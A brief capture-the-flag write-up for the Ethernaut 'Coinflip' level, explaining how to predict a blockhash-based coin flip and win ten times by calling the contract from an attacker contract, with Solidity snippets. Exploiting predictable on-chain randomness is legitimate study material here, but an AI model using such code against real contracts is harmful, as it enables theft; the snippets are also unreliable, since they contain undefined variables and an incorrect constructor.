# Coinflip Ethernaut

## Goals

=> Guess the Coinflip with the right result 10x in a row

- Here we just need to deploy a contract which needs the `FACTOR` variable and the coinFlip contract address which would look like this

```solidity
   CoinFlip coinFlip;
   uint256 FACTOR =
       57896044618658097711785492504343953926634992332820282019728792003956564819968;

   constructor(address _coinFlip) {
       coinFlip = new CoinFlip(_coinFlip);
   }
```

this then also has access to the `block.number` which gives us the ability to generate the pseudo random blockValue and we can then just copy paste the following code block

```solidity
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    return side;
```

which will return us true / false which will be the next result then we just need to call the following function 10 times and we will win everytime

```solidity
    function hackFlip() external {
        bool guess = _guess;
        coinFlip.flip(guess);
    }
```

since guess will always be the same as in CoinFlip this will always calculate the right answer and thus win everytime, we now have to do 10 transactions to reach our goal
